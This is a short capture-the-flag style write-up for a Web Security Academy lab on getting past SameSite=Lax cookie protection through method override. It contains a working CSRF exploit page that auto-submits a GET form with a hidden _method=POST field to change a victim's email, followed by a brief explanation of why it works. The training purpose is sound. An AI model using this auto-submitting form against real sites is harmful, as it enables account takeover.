 # Lab 7: SameSite Lax bypass via method override

```html
<html>
  <body>
    <form action="https://0ae100e60440270980c8b79400b8004f.web-security-academy.net/my-account/change-email" method="GET">
      <input type="hidden" name="_method" value="POST">
      <input type="hidden" name="email" value="test@test.com">
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

### 💡 Why This Works:

- **SameSite=Lax** allows `GET` requests during top-level navigation (like clicking a link or auto-submitting a form), but blocks `POST` requests with cookies.
- This lab’s backend **uses method override**, meaning if it sees `_method=POST` in a `GET` request, it treats it as a `POST`.
- Your exploit leverages this by sending a `GET` with `_method=POST`, bypassing the cookie protection.